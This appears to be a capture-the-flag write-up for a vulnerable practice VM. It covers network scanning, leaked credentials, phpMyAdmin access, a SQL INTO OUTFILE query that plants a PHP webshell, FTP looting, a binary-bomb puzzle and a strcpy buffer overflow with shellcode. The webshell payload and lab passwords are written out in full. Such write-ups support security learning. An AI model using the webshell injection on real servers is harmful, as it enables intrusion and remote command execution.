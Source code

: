 ## Writeup 1

After downloading and setting up the machine on VirtualBox, There isn't any visible IP address on startup like other ISOs to connect easily on SSH.
This is not a big deal, we will use nmap to scan all devices on our network and their open ports. We will not scan for all possible addresses in our network because that will take a long time. And since we already know the range of IPs we want to search for (10.13.100.0 to 10.13.100.256), we will use nmap with that range: (Otherwise we can use arp to get IPs addresses on the network then nmap to scan for open ports):

```console
nmap 10.13.100.0/24
```
![Nmap report Image](img/nmap-scan.png "Nmap scan")

That will show us the open ports, we notice that a host is up with open ports for ssh, ftp, *http* and *https*. That mean we can access it via our navigator
after that we use dirbuster to fuzz all available directories in the website:

![Website Image](img/homepage.png "Website")

We can access to the website but still we can't do much with a simple HTML page, let's try fuzzing directories with *dirb* to see if we can find any useful directory.
```console
dirb https://10.13.100.x
```

![dirb result](img/dirb.png "dirb result")

we find a /forum + other directories we will get to later
after scanning the posts in the forum, we find a thread from lmezard where there is a bunch of logs and errors, after a quick scan we can find a leaked pw : **!q\\]Ej?\*5K5cy\*AJ**
we log in with lmezard:!q\\]Ej?\*5K5cy\*AJ and we don't find anything that's interesting.
Our last command with dirb found a https:://10.13.100.x/webmail/ , now let's go back to the forum and get lmezard email then log with it using the same passowrd.
we will find identifiers to the database phpmyadmin **root/Fg-'kKXBj87E:aJ$**
https:://10.13.100.x/phpmyadmin/ was also a directory found, let's log into it using those credentials:
Let's try injecting a simple PHP webshell using sql:
```sql
SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {system($_GET[\'cmd\']);} ?> </pre></BODY></HTML>"

INTO OUTFILE '/var/www/forum/templates_c/cmd.php'
```
After some trial and error, all directories found with dirb are non-writable and will return an error except https://10.13.100.x/forum/templates_c/

Cool, now we can access the webshell https://10.13.100.x/forum/templates_c/cmd.php and try simple commands.

now if we see what's inside /home we'll see a file called LOOKATME that contains : **lmezard:G!@M6f4Eatau{sF"**
this isn't working in ssh but first when we ran Nmap we saw a port 21 open for ftp. We can connect to it from our machine.
```console
ftp 10.13.100.x
Name > lmezard
Password > G!@M6f4Eatau{sF"
```
we got in, let's try ls command, it doesn't work let's try passive mode
```console
ftp > pass
ftp > ls
150 Here comes the directory listing.
-rwxr-x--- 1 1001 1001 96 Oct 15 2015 README
-rwxr-x--- 1 1001 1001 808960 Oct 08 2015 fun
226 Directory send OK.
```

we use mget to get the files to our working directory
```
mget README fun
```

```
cat README
Complete this little challenge and use the result as password for user 'laurie' to login in ssh
```

When we inspect the "fun" file, It's a c program with a bunch of comments and printfs of "Hahahaha Got you!!!\n", this is the main function:
```c
int main() {
	printf("M");
	printf("Y");
	printf(" ");
	printf("P");
	printf("A");
	printf("S");
	printf("S");
	printf("W");
	printf("O");
	printf("R");
	printf("D");
	printf(" ");
	printf("I");
	printf("S");
	printf(":");
	printf(" ");
	printf("%c",getme1());
	printf("%c",getme2());
	printf("%c",getme3());
	printf("%c",getme4());
	printf("%c",getme5());
	printf("%c",getme6());
	printf("%c",getme7());
	printf("%c",getme8());
	printf("%c",getme9());
	printf("%c",getme10());
	printf("%c",getme11());
	printf("%c",getme12());
	printf("\n");
	printf("Now SHA-256 it and submit");
}
```

if we try looking for getme() functions we will only find from getme8() to getme12(), the others are missing, now we know that the end of password is:

? &nbsp; ? &nbsp; ? &nbsp; ? &nbsp; ? &nbsp; ? &nbsp; ? &nbsp; w &nbsp; n &nbsp; a &nbsp; g &nbsp; e

now if we search for "return" we will find some commented returns those are the 7 characters left: h p e a I r t

If we assume the I is the first letter since it's uppercase + the last word will most likely be pwnage we will be left with the characters: h e a r t

I &nbsp; h &nbsp; e &nbsp; a &nbsp; r &nbsp; t &nbsp; p &nbsp; w &nbsp; n &nbsp; a &nbsp; g &nbsp; e

let's trying hashing the following password and let's try ssh to laurie;

sha256(Iheartpwnage) = 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

ssh laurie@192.168.188.140
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

IT WORKED!!

<h2>Bomb:</h2><br/>

Readme:
```
	laurie@BornToSecHackMe:~$ cat README
	Diffuse this bomb!
	When you have all the password use it as "thor" user with ssh.

	HINT:
	P
	 2
	 b

	o
	4

	NO SPACE IN THE PASSWORD (password is case sensitive).
```
<br/>
1) The function phase_1 compare the line with a string predefined.

<img src="./img/phase_1.png">

> Public speaking is very easy.<br/>

2) The function phase_2 expect us to write factorial 1 to 6.

<img src="./img/phase_2.png" width="40%" height="40%">

> 1 2 6 24 120 720 <br/>

3) The function phase_3 have multiple choices:

<img src="./img/phase_3.png" width="30%" height="30%"><br/>

We already know from the readme that the 2nd param should be a 'b', that left us with 3 possible answers,<br/>after defusing the bomb we found that the right answer is:

> 1 b 214<br/>

4) The function phase_4 use Fibonacci number:<br/>

<img src="./img/phase_4.png" width="300px" height="300px"><img src="./img/phase_4_1.png" width="300px" height="300px"><br/>

But the way its implemented we need to use f(n+1) not f(n), so to get Fibonacci(10)=55 we need to pass 9.

> 9 <br/>

5) This function takes an str that is exactly 6 characters long then creates a new str that's filled with the following line:

*newstr[i] = (&array.123)[(char)(*(byte *)(i + line) & 15)]*

And in the end it checks if newstr equals to "giants". array123 is an array that contains the following characters : *array123="isrveawhobpnutfg"*.
Now all we have to do is look for the index of each character in "giants" in array123 and perform the logical & operation with 0xf on that;

newstr[0] = 0x6f & 0xf = 0xf or 15 (15 here is the index of 'g' in array123;

newstr[1] = 0x70 & 0xf = 0x0 or 0 (0 here is the index of 'i' in array123;

newstr[2] = 0x65 & 0xf = 0x5 or 5 (5 here is the index of 'a' in array123;

newstr[3] = 0x6b & 0xf = 0xb or 11 (11 here is the index of 'n' in array123;

newstr[4] = 0x6d & 0xf = 0xd or 13 (13 here is the index of 't' in array123;

newstr[5] = 0x71 & 0xf = 0x1 or 1 (1 here is the index of 's' in array123;

We will end up with **newstr = "opekmq"**

<img src="./img/phase_5.png" width="40%" height="40%"><br/>

 NB: There are so many different answers that will pass this level but this is the one that works with the password at the end;

6) The Function phase_6 use the input to sort 6 nodes, and then see if they are sorted in ascending order.<br/>
![](./img/phase_6_nodes_mem.png)
```
Public speaking is very easy.
1 2 6 24 120 720
1 b 214
9
opekmq
4 2 6 3 1 5
```
> thor:Publicspeakingisveryeasy.126241207201b2149opekmq426135 [BUG IN THE SUBJECT](https://stackoverflow.com/c/42network/questions/664/1628?r=SearchResults&s=1%7C12.5313#1628)

We found a file named Turtle containing line like this:
```
Tourne gauche de 90 degrees
Avance 50 spaces
Avance 1 spaces
Tourne gauche de 1 degrees
```
that look like turtle logo algorithme, by changing those french word with actual instructions we got the password for zaz.
```
lt 90
fd 50
fd 1
lt 1
```
[TURTLE LINK](https://www.transum.org/Software/Logo/Level2/Default.asp?Level=3)

<img src="./img/turtle_1.png"  width="200" height="200">
<img src="./img/turtle_2.png"  width="200" height="200">
<img src="./img/turtle_3.png"  width="200" height="200">
<img src="./img/turtle_4.png"  width="200" height="200">
<img src="./img/turtle_5.png"  width="200" height="200">

MD5 Hash of SLASH = 646da671ca01bb5d84dbb5fb2238dc8e

> zaz:646da671ca01bb5d84dbb5fb2238dc8e

We found an executable file named exploit_me, so we exploit it.
the program copy av[1] into a local variable using strcpy"NON SECURE" and then prints it using puts(&var), so we have a buffer overflow.<br/>
<img src="./img/exme_disass.png" width="60%" height=60%>

Now we have to find the lenght needed to overwrite the return address.<br/>
<img src="./img/exme_payload_len.png" width="60%" height=60%>

Test the lenght:<br/>
<img src="./img/exme_payload_test.png" width="60%" height=60%>
<img src="./img/exme_payload_test2.png" width="60%" height=60%>

Now we need to inject a [shellcode](https://shell-storm.org/shellcode/files/shellcode-811.php) and redirect to it:<br/>
<img src="./img/exme_payload_findaddr.png" width="60%" height=60%>
<img src="./img/exme_payload_shell.png" width="60%" height=60%>





